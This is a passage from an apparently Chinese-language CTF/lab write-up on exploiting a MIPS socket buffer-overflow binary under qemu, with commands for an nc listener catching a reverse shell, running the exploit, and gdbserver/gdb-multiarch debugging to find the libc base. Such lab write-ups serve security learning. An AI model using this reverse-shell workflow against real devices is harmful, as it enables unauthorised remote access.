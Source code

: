 运行成功的流程为分别在三个窗口执行下面的三条指令：

```
nc -lvp 31337
./local.sh
python exp.py
```

成功返回shell的图片如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016773dc90fe438471.png)

### <a class="reference-link" name="qemu%E6%A8%A1%E6%8B%9F%E8%B0%83%E8%AF%95"></a>qemu模拟调试

qemu里面模拟的过程，

1.可以安装上面两道题的方式进行调试。

2.还可以按照下面的方式来进行：

1）在qemu中

```
chroot . ./pwnable/ShellCode_Required/socket_bof 9999 &amp;
gdbserver.mipsel 192.169.100.254:6666 --attach pid
```

如图所示：

[![](https://p2.ssl.qhimg.com/t0135e19ec0288d9098.png)](https://p2.ssl.qhimg.com/t0135e19ec0288d9098.png)

2)在本机中运行

```
gdb-multiarch
target remote 192.168.100.3:6666
vmmap
c
```

如图所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012db6490909a61d4d.png)

由此我们可以知道libc的基地址

3）exp.py就是上面的，把libc_base改一下，remote的ip改一下。

4）在调试过程中，nc监听的端口总是接受不了到返回的shell，总是出现如图所示的内容影响，必须在调试到shellcode最后的时候，在监听端口的话，会返回shell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0126ef5c3c1a0b3ea6.png)

5）正常运行，不进行调试的时候，成功如图所示：
